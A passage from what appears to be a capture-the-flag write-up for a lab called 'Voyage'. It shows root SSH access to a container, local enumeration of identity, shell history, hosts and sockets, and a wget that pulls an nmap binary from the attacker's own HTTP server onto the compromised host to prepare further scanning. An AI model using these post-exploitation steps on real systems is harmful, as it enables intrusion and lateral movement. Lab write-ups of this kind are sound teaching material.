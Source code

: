 <h2>SSH</h2>

```bash
:~/Voyage# ssh root@xx.xxx.xx.xx -p 2222
...
root@f5eb774507f2:~#
```

<img width="1169" height="372" alt="image" src="https://github.com/user-attachments/assets/1907b64c-2e45-4c60-b071-9c6d25cbe739" />

```bash
root@f5eb774507f2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@f5eb774507f2:~# pwd
/root
```

```bash
root@f5eb774507f2:~# cat .bash_history
ls
curl
nmap
socat
exit
```

```bash
root@f5eb774507f2:~# getent hosts
127.0.0.1       localhost
127.0.0.1       localhost ip6-localhost ip6-loopback
192.168.100.10  f5eb774507f2
```

```bash
root@f5eb774507f2:~# ss
Netid          State           Recv-Q           Send-Q                      Local Address:Port                       Peer Address:Port           Process        
u_str          ESTAB           0                0                                       * 14898                                 * 0                             
tcp            ESTAB           0                0                          192.168.100.10:22                        xx.xxx.xx.xxx:39128                         
```

<h2>Nmap</h2>

```bash
root@f5eb774507f2:/tmp# wget http://xx.xxx.xx.xxx:8000/nmap-x64.tar.gz
--2025-09-01 xx:xx:xx--  http://xx.xxx.xx.xxx:8000/nmap-x64.tar.gz
Connecting to xx.xxx.xx.xxx:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10686789 (10M) [application/gzip]
Saving to: \u2018nmap-x64.tar.gz\u2019

nmap-x64.tar.gz                          100%[================================================================================>]  10.19M  --.-KB/s    in 0.09s   
```
